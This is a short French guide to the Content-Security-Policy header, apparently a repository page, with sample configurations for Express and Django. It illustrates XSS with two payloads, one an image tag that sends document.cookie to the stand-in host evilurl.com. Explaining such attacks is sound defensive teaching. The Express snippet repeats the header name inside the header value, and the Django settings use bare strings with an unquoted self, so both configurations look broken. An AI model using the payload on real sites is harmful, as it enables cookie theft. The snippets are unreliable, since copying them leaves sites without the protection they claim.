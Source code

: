 # Content-Security-Policy

## Le problème
Lorsque vous affichez sur votre navigateur le contenu de la page https://example.gouv.fr, certains contenus affichés peuvent être malicieux. Par exemple, si vous affichez une liste de posts sur un forum, il est possible pour un utilisateur de poster, par exemple, les messages suivants :
- `<script>alert("AH !")</script>`
- `<img src="https://evilurl.com?cookie='document.cookie'" />`
Si le site tente d'exécuter ce script ou d'afficher cette image, cela s'appelle une faille XSS. Dans le premier cas, une pop-up s'affichera sur votre écran, et dans le second l'attaquant n'aura qu'à consulter les appels faits à la route `https://evilurl.com` pour obtenir les cookies des utilisateurs. 

## La solution
Le header `Content-Security-Policy` définit la liste des ressources autorisées à être affichées / exécutées par le navigateur. Vous pouvez par exemple décider que seuls les scripts hébergés sur votre site peuvent exécutés, et seules les images fournies par https://raw.githubusercontent.com peuvent être affichées.

## L'implémentation
### Express
```javascript
app.use((req, res, next) => {
    /*
    * le contenu du site n'est fourni que par la même origine, sauf pour les scripts qui ne viennent que de sous-domaines de example.gouv.fr et les images qui peuvent venir de n’importe quelle source. Les scripts et styles inline ne sont pas exécutés.
    */
	res.header("Content-Security-Policy", "Content-Security-Policy: default-src 'self' ; script-src *.gouv.fr ; img-src *"); 

	next();
});
```

### Django
- `pip install django-csp`
- Ajouter csp.middleware.CSPMiddleware à MIDDLEWARES

- Ajouter dans `settings.py`:
```python
"""
le contenu du site n'est fourni que par la même origine, sauf pour les scripts qui ne viennent que de sous-domaines de example.gouv.fr et les images qui peuvent venir de n’importe quelle source.
Les scripts et styles inline ne sont pas exécutés.
"""
CSP_DEFAULT_SRC='self'
CSP_SCRIPT_SRC='*.gouv.fr'
CSP_IMG_SRC='*'
```

## Ressources
- [https://developer.mozilla.org/fr/docs/Web/HTTP/CSP](https://developer.mozilla.org/fr/docs/Web/HTTP/CSP)

